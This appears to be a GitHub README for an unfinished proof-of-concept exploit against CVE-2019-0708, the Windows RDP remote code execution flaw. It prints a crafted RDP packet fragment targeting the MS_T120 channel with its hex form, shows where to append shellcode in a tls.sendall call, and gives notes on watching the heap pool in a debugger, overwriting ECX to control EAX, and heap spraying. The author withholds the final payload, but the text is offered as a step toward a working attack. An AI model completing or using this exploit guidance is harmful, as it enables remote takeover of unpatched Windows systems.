# CVE-2019-0708-PoC
CVE-2019-0708-PoC
We are working for a fully functional exploit.
Here there are Pseudocodes and Notes.
"\x03\x00\x00\x0c\x02\xf0\x808\x00\x06MS_T120\x00\x00\x00\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Adding payloads isn’t very hard. You have to make the payload though mine won’t be shared. All you have to do is find the correct spot, 
tls.sendall(“payloadhex”)
first code is \x03\x00\x00\x0c\x02\xf0\x808\x00\x06 i think its 0300000c02f080380006
as in "dep": "0300000c02f080380006",
next shit MS_T120 - its 4d535f5431323000000000
so first part must be 0300000c02f0803800064d535f5431323000000000YOURSHELL
Find the correct spot in the heap memory pool,
It's not insanely difficult,if you've exploited buffer overflows 
then just do the same thing here(sort of)
Run a debugger on the RDP machine to watch the memory pool. 
Setting the value of ECX to a actual memory address instead of "AAAAAAAAAAA"
will allow you to control the space of EAX.
<< where the shellcode needs to land.
<< achieved by heap spraying >>.
